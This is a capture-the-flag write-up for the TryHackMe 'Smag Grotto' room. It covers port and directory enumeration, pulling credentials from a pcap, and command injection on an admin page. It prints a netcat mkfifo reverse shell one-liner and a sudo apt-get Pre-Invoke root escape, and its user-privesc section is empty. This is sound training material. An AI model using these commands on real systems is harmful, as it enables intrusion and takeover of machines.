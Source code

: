 ![banner](//img/thm/smag/banner.png)


**Room by:** 
**Difficulty:** Easy
**Url:** [TryHackMe.com - Smag Grotto](https://tryhackme.com/room/smaggrotto)


## Overview:

Find .pcap file at /mail and analyze with Wireshark. Login to /admin.php and exploit command injection. Exploit cron job to gain user, and then a GTFOBin for root.


## ~ Enumeration
**Start with an nmap scan `nmap -sV -sC -oN nmap/scan smag.thm`. Then we will run Gobuster against `http://smag.thn'.**

**Nmap** <br />

```bash
# Nmap 7.80 scan initiated Wed Jul 29 20:32:03 2020 as: nmap -sC -sV -oN scan 10.10.207.150
Nmap scan report for 10.10.207.150
Host is up (0.024s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 74:e0:e1:b4:05:85:6a:15:68:7e:16:da:f2:c7:6b:ee (RSA)
|   256 bd:43:62:b9:a1:86:51:36:f8:c7:df:f9:0f:63:8f:a3 (ECDSA)
|_  256 f9:e7:da:07:8f:10:af:97:0b:32:87:c9:32:d7:1b:76 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Smag
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

**HTML**
<br />

[![html](//img/thm/smag/welcome.png)](/Images/welcome.png)

<br />

> Nothing obvious so far

<br />

**Gobuster**
```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.131.117
[+] Threads:        10
[+] Wordlist:       /opt/wordlists/big.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/12/08 11:48:07 Starting gobuster
===============================================================
// (Status: 200)
/mail (Status: 301)
===============================================================
2020/12/08 11:48:24 Finished
===============================================================
```
<br />

**If we go to `/mail` you will find a `.pcap` file to download. The page instructs you to download using `wget`.**

`wget http://smag.thm/aW1wb3J0YW50/dHJhY2Uy.pcap`


**Now we have the file, lets analyze it using Wireshark.**

[![wireshark](//img/thm/smag/wireshark1.png)](/Images/wireshark1.png)

**Follow the HTTP stream:**
<br />

[![stream](//img/thm/smag/wireshark2.png)](/Images/wireshark2.png)

**This gives us a username, password and a domain name to add to `/etc/hosts`**
[![dev](//img/thm/smag/devsmag.png)](/Images/devsmag.png)


## ~ Foothold

If we browse to `/login.php` we can log in using the creds we found earlier. And then we are greeted a page, where we can input commands. For a simple PoC we will host a http server on our machine and try to `wget` from the command box.

**`wget 'http://10.10.10.10:8000/test.txt`**

<br />

[![Success](//img/thm/smag/wget.png)](/Images/wget.png)

**Revers Shell:**
We are going to set up and send a netcat reverse shell.
<br />
`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f`

[![admin](//img/thm/smag/adminphp.png)](/Images/adminphp.png)
<br />  

[![ncat](//img/thm/smag/nc.png)](/Images/nc.png)

## ~ Privesc to user:


## `Sudo -l`
```
Matching Defaults entries for jake on smag:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on smag:
    (ALL : ALL) NOPASSWD: /usr/bin/apt-get

```


`sudo /usr/bin/apt-get update -o APT::Update::Pre-Invoke::=/bin/sh`



